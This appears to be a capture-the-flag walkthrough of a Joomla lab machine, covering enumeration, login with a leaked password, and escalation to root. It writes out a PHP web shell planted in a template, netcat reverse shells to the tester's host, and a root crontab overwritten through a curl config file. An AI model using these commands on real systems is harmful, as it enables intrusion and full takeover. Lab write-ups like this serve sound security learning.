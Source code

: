 * ENUMERATION

#+BEGIN_SRC bash
NMAP
#+END_SRC

#+BEGIN_SRC bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.150 | grep ^[0-9] | cut -d'/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.10.10.150 --open
#+END_SRC

Apache is running on port 80 and SSH on port 22.

** APACHE

Navigating to port 80, we come across a Joomla website.

The page contains two usernames: “Super user” and Floris. Checking the HTML source of the page reveals a comment saying `secret.txt`. Checking [[http://10.10.10.150/secret.txt][http://10.10.10.150/secret.txt]] we find a string which is base64 encoded.

#+BEGIN_SRC bash
curl -s http://10.10.10.150/secret.txt | base64 -d
#+END_SRC

Going to the admin page at [[http://10.10.10.150/administrator/][http://10.10.10.150/administrator/]] and trying to login with the username Floris logs us in.

* FOOTHOLD

Logging in gives us access to the control panel. On the right side under Configuration, click on Templates > Templates > Protostar. Now click on a PHP file like `index.php` and add command execution.
#+BEGIN_SRC php
system($_REQUEST['pwn']);
#+END_SRC


Click on save and navigate to `/index.php` to issue commands. Now that we have RCE, we can get a reverse shell.
#+BEGIN_SRC bash
  curl http://10.10.10.150/index.php -G --data-urlencode 'pwn=rm
  /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f
  '	      
#+END_SRC

* LATERAL MOVEMENT
** HEX DUMP
Navigating to `/home/floris` we find a file named `password_backup`. The file looks like a hex dump done using `xxd` which can be reversed.
#+BEGIN_SRC bash
  cd /tmp
  cp /home/floris/password_backup .
  cat password_backup | xxd -r > bak
  file bak
#+END_SRC


The resulting file is bzip2 compressed.
The file appears to be repeatedly archived. The steps to decompress it are
#+BEGIN_SRC bash
  bzip2 -d bak
  file bak.out
  mv bak.out bak.gz
  gzip -d bak.gz
  file bak
  bzip2 -d bak
  file bak.out
  tar xf bak.out
  cat password.txt
#+END_SRC

The file found was password.txt which is the password for floris. We can now SSH in as floris with
the discovered password.
#+BEGIN_SRC bash
  ssh floris@10.10.10.150
#+END_SRC

* PRIVILEGE ESCALATION

We enumerate the running crons using `pspy`. Download the smaller binary and transfer it to the box.
#+BEGIN_SRC bash
  wget
  https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s
#+END_SRC

#+BEGIN_SRC bash
  scp pspy64s floris@10.10.10.150:/tmp
  cd /tmp
  chmod +x pspy64s
  ./pspy64s
#+END_SRC

After letting it run for a minute, we’ll find a cron running. According to `curl` manpage, the `-K` option is used to specify a config file. The cron uses input as the config and outputs to report. The input file is owned by our group, so we can write our own config. From the manpage, we know that the “output” parameter can be used to specify the output file. We can create a malicious crontab and overwrite it on the box.

** MANIPULATING THE CONFIG

First create a malicious crontab locally and start a simple HTTP server.
#+BEGIN_SRC bash
  cp /etc/crontab .
  echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i
  2>&1|nc 10.10.14.2 1234 >/tmp/f ' >> crontab
  python3 -m http.server 80
#+END_SRC

Now edit the input config with the contents:

#+BEGIN_SRC bash
  url = "http://10.10.14.2/crontab"
  outpu t = "/etc/crontab"
#+END_SRC

A shell should be received within a minute.
#+BEGIN_SRC bash
  nc -lnvp 1234
#+END_SRC




